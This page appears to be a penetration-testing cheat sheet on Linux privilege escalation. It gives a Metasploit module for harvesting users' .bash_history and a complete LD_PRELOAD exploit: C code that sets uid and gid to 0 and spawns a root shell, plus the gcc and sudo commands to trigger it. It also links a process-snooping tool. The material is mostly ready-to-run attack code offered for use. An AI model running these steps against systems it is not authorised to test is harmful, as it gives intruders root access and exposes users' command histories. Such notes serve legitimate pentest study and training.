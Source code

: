 # Linux Privilege Escalation

### Metasploit



Enumerate user .bash\_history using metasploit

from .bash\_history we can get juicy information there

```
use post/linux/gather/enum_users_history
set session <session_id>
run
```

### LD\_PRELOAD Privileges Escalation



{% hint style="info" %}
check in sudo -l

env_keep+=LDPRELOAD_\
\
_and check the run the following commands_
{% endhint %}

generate a C program in /tmp with C code :&#x20;

```
nano /tmp/shell.c
```

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
```

then run&#x20;

```
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
sudo LD_PRELOAD=/tmp/shell.so <program run as root>
```

### ENum

{% embed url="https://github.com/DominicBreuker/pspy" %}

